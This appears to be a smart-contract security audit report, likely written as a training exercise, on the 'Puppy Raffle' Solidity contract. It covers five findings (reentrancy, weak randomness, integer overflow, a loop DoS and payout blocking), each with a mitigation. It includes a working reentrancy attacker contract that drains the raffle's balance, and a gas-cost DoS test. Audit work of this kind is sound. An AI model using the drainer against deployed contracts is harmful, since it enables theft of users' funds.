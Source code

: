 # Protocol Summary
Puppy Rafle is a protocol dedicated to raffling off puppy NFTs with variying rarities. A portion of entrance fees go to the winner, and a fee is taken by another address decided by the protocol owner.

# Roles
Owner: The only one who can change the feeAddress, denominated by the _owner variable.
Fee User: The user who takes a cut of raffle entrance fees. Denominated by the feeAddress variable.
Raffle Entrant: Anyone who enters the raffle. Denominated by being in the `players` array.

# Executive Summary

Issues found

|Severity | Number of issues found|
|---|---|
|High|	3|
|Medium|	2|
|Info|	0|
|Total|	5|


# Findings

## High

### [H-1] `PuppyRaffle::refund` External function call before updating state, leaving room for a reentrancy attack.

**Description:** The refund function in the PuppyRaffle contract allows an attacker to exploit a reentrancy vulnerability. The external call to transfer funds (via refund()) is made before updating the contract's state, enabling an attacker to repeatedly call the refund function through a fallback mechanism, thereby draining the contract's balance.

**Impact:** High 

**Proof of Concept:**

If the starting balance of the attacker contract is 0 ETH and the starting contract balance is 4 ETH, after an attack by the ReentrencyAttacker contract, as seen below, the contract balance will be drained to zero:

- Ending attacker contract balance: 5 ETH
- Ending contract balance: 0 ETH

<details>
Please include the code below in the PuppyRaffle.t.sol
<summary>Proof of code</summary>

```javascript
contract ReentrencyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}
```
</details>


**Recommended Mitigation:**

- Use Reentrancy Guard: Consider implementing the ReentrancyGuard pattern to prevent multiple calls to the same function during the execution process.

- Checks-Effects-Interactions Pattern: Always follow the best practice of the checks-effects-interactions pattern, which involves checking conditions, updating state, and interacting with external contracts only after the state has been updated.


## [H-2] The Weak/Insecure Randomness in `PuppyRaffle::selectWinner` allows the user to include or predict the raffle  and/or winning puppy. 

**Description:** Hashing `msg.sender`, `block.timestamp`, and `block.difficulty` produces random numbers and for the case of this raffle, it is considered Not Good.

*Note:* This means users can front-run this function and call ``refund` if they see they are not the winner 

**Impact:** Any user can influence the winner of the raffle, winning the money and selecting the `rarest` puppy. This will make the entire raffle worthlesss if it becomes a gas war as to who win the raffle.

**Proof of Concept:**
1. Validators can know ahead of time the `block.timestamp` and `block.difficulty` and use to predict when/how to participate. 
2. Users can mine/manipulate their `msg.sender` value to result in their address being used to generate the winner address.
3. Users can revert their `selectWinner` transaction if they don't like the winner ir resulting puppy.

**Recommended Mitigation:**

Consider using a cryptographically provable random number generator, i.e., Chainlink VRF.


        //@audit arithemethic overflow. Fixes includes, newer version of Solidity, bigger uints(s).


### [H-3] Interger overflow of `PuppyRaffle::totalFees` looses fees.

**Description:** Solidity version prior to `0.8.0` integers were subject to interger overflow.

```javascript
uint64 myVar = type(uint64).max

// myVar = 18446744073709551615
myVar = myVar + 1

// myVar will be zero
```

**Impact:** In `PuppyRaffle::selectWinner`, `totalFees` are accumulated for the `address` to collect in the `PuppyRaffle::withdrawFees`. However, if the `totalFees` variable overflows, the `feeAddress` may not collect the correct amount of fees. This will cause a lot of fees to be stuck in the contract.

**Proof of Concept:**
1. We conclude a raffle of 4 players.
2. We then got 89 players to enter the new raffle.
3. `totalFees` + uint64(fees); will overflow.
4. You will not be able to withdraw due to the line in the `withdrawfees` function. Except in the case where a selfdestruct is initiated.

<details>
<summary>Code</summary>
</details>

**Recommended Mitigation:**
1. Use a newer version of solidity `(0.8.18)`.
2. Use uint256 instead of uint64 for the `totalFees`.
3. Tou could also use the `safeMath` library of Openzeppelin.
4. Remove the balance check from `PuppyRaffle::withdrawfees`

```diff
-        require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");

// there are more attack vector with that final require, so we recommend removing it.
```

## Medium

### [M-1] Looping through `players' array to check for duplicates in `PuppyRaffle::enterRaffle` is a Potential DOS attack.

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates. However, gas cost accumulates exponentially when new players make new checks. Every additional address in the `players` array is an additional check the loop will have to make.

**Impact:** The gas cost for Raffle rntrsnt will greately increase as more player enters the raffle. This will discourage later users from entering and causing a rush at the start of the raffle. 

An attacker might make the `PuppyRaffle::entrants` array to be so big, that no one else enters, saving the win stakes for themselves.

**Proof of Concept:**

If we have two sets of 100 players enter, the cost of gas will be such:

- the gas cost of the first 100 players: 6252128
- the gas cost of the Second 100 players: 18068218

this is more than 3X more expensive for the 2nd 100 players.

<details>
<summary>Proof of code</summary>

Include the following test into `PuppyRaffleTest.t.sol`

```javascript
 function testDosForEnterRaffleFunction () public {

        vm.txGasPrice(1);

        // Let's enter 100 players
        uint256 playerNum = 100;
        address [] memory players = new address[](playerNum);
        for (uint256 i = 0; i < playerNum; i++){
            players[i] = address(i);
        }
        
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee*players.length}(players);
        uint256 gasEnd = gasleft();


        uint256 gasUsedFirst = (gasStart - gasEnd)*tx.gasprice;
        console.log("gas cost of the first 100 players:", gasUsedFirst);


        // for the 2nd 100 players

      address [] memory playersTwo = new address[](playerNum);
        for (uint256 i = 0; i < playerNum; i++){
            playersTwo[i] = address(i + playerNum); // address 101, 102, 103...
        }
        
        uint256 gasStartSecond = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee*players.length}(playersTwo);
        uint256 gasEndSecond = gasleft();


        uint256 gasUsedSecond = (gasStartSecond - gasEndSecond)*tx.gasprice;
        console.log("gas cost of the Second 100 players:", gasUsedSecond);

        assert(gasUsedFirst < gasUsedSecond);


    }
```
</details>

**Recommended Mitigation:** Recommendations include;
- Consider allowing duplicates. Here, users can create unique wallets and enter the raffle multiple times.

- Consider using mapping to check for duplicates. This would allow a constant-time lookup of whether a user has already entered.  


### [M-2] Smart Contract wallet raffle winners without a receive or a fallback will block the start of a new contest.


**Description:** The PuppyRaffle::selectWinner function is responsible for resetting the lottery. However, if the winner is a smart contract wallet that rejects payment, the lottery will not be able to restart.

Non-smart contract wallet users could reenter, but it might cost them a lot of gas due to the duplicate check.

**Impact:** The PuppyRaffle::selectWinner function could revert many times and make it very difficult to reset the lottery, preventing a new one from starting.

Also, true winners would not be able to get paid out, and someone else would win their money!

**Proof of Concept:**

1. 10 smart contract wallets enter the lottery without a fallback or receive function.
2. The lottery ends
3. The selectWinner function wouldn't work, even though the lottery is over!

**Recommended Mitigation:** There are a few options to mitigate this issue.

Do not allow smart contract wallet entrants (not recommended)
Create a mapping of addresses -> payout so winners can pull their funds out themselves, putting the owners on the winner to claim their prize. (Recommended)
